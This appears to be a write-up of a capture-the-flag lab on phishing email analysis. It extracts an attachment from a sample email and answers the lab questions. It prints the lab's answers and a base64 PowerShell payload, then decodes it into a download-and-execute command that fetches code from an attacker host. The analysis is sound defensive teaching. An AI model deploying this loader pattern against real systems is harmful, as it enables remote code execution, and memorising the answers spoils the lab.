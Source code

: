 # Task 2: Email Analysis

## Scenario: The Boogeyman is Here!

Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.

The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from other finance department employees. This indicates a highly targeted attack on the finance team. Upon checking the latest threat intelligence, the initial Tactics, Techniques, and Procedures (TTPs) used for the malicious attachment are attributed to a new threat group named **Boogeyman**, known specifically for targeting the logistics sector.

**Your task:** Analyze and assess the impact of this compromise, starting with the initial access vector.

---

## Investigation Guide: Analyzing `dump.eml`

Given the initial information, we know that the compromise started with a phishing email. Our first step is to analyze the `dump.eml` file, which is located in the `/home/ubuntu/Desktop/artefacts` directory within the provided VM.

There are two primary ways to analyze the email headers and rebuild the attached payload:

### Method 1: Manual Analysis (Command-Line Tools)

This method involves using basic command-line tools available in the VM to extract and decode information directly from the `.eml` file.

* **Tools:** `cat`, `grep`, `base64`, `sed`.
* **Process:** Manually analyze the contents of `dump.eml`. The encoded payload (often base64) is typically located at the bottom of the file. You will need to extract this string and decode it.

    ```bash
    # Sample command to rebuild the payload, presuming the encoded payload is written in another file, without all line terminators
    # Example: cat <PAYLOAD_FILE> | base64 -d > Invoice.zip
    ```

### Method 2: Using Thunderbird (GUI)

This is often the simpler and more intuitive method for initial email review.

* **Tool:** Thunderbird (pre-installed in the VM).
* **Process:** Double-click the `dump.eml` file to open it directly via Thunderbird. The email's content, headers, and attachments will be presented in a user-friendly interface. The attachment can then be easily saved and extracted.

### Extracting Payload Information with `LNKParse3`

Once the payload from the encrypted archive is extracted (which often results in a `.LNK` file), you will use the `lnkparse` tool to extract detailed information about it.

* **Tool:** `lnkparse`
* **Command Example:**

    ```bash
    ubuntu@tryhackme:~ $ lnkparse <LNK_FILE>
    ```

---

## Questions and Analysis

Please provide your findings and explanations for the following questions:

### 1. What is the email address used to send the phishing email?

The email address can be found by accessing the `dump.eml` file w/ Thunderbird, as shown in the image below.

![2025-06-17T15_37_20](https://github.com/user-attachments/assets/c7b5ba93-4af1-4df1-a3e7-39467c7a1823)

We see that the answer is: agriffin@bpakcaging.xyz

This image can also be used to answer questions 2 & 5.

---

### 2. What is the email address of the victim?

If we check the recipient of the email, we find that the answer is: julianne.westcott@hotmail.com

### 3. What is the name of the third-party mail relay service used by the attacker based on the `DKIM-Signature` and `List-Unsubscribe` headers?

To find this information with Thunderbird, we need to view the source and find the appropriate headers. 

![2025-06-17T15_37_24](https://github.com/user-attachments/assets/c31842ff-77f6-4119-bea3-e11771387754)

Once we do so, we find that the third-party mail relay service is: elasticemail

---

### 4. What is the name of the file inside the encrypted attachment?

To find this information, I downloaded the encrypted attachment to the artefacts directory and used the password provided in `dump.eml` to extract the file. 

![image](https://github.com/user-attachments/assets/2788c98c-a595-43a0-8905-f2d7895dc68b)

Once finished, we see that the name of the file is: Invoice_20230103.lnk

---

### 5. What is the password of the encrypted attachment?

As previously mentioned, we can find this information in the `dump.eml` file using Thunderbird. 

The answer is: Invoice2023!

---

### 6. Based on the result of the `lnkparse` tool, what is the encoded payload found in the `Command Line Arguments` field?

To find this information, we need to open up the terminal. From there we type the command, lnkparse <file_lnk>, as shown in the image below.

![image](https://github.com/user-attachments/assets/8d25a237-a0a3-40c3-9a98-3da95f44edd7)

Once we execute the command, we can find the answer in the output, as shown in the image below.

![image](https://github.com/user-attachments/assets/36778e16-0495-4127-977a-1911b3338083)

The answer is: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==

When decoded, we find that the command is as follows: 

iex (new-object net.webclient).downloadstring('hxxp[://]files[.]bpakcaging[.]xyz/update') 

As a note, the link above has been defanged. This also applies for the links in the following analysis.


**Step-by-step Breakdown:**

1. iex

This powershell commandlet, short for Invoke-Expression, executes a specified string as a command and returns its results.

2. new-object net.webclient

Creates a new instance of the .NET class System.Net.WebClient. This object allows the script to download data from the internet.

3. .downloadstring('hxxp[://]files[.]bpakcaging[.]xyz/update')

Calls the DownloadString method of the WebClient object. This downloads the content at the specified URL (hxxp[://]files[.]bpakcaging[.]xyz/update) as a string. Whatever code is hosted at that URL is fetched as text.


**Putting it together:**

The command:

Creates a web client, downloads code from the internet, and executes that code in memory.

Why This Is Dangerous:
This is a classic technique used in malware and remote code execution. The code at the external URL could do anything: install software, steal data, create backdoors, etc. Since it’s dynamically downloading and executing code, it's hard to detect statically. Often used in PowerShell-based attacks or fileless malware.

---
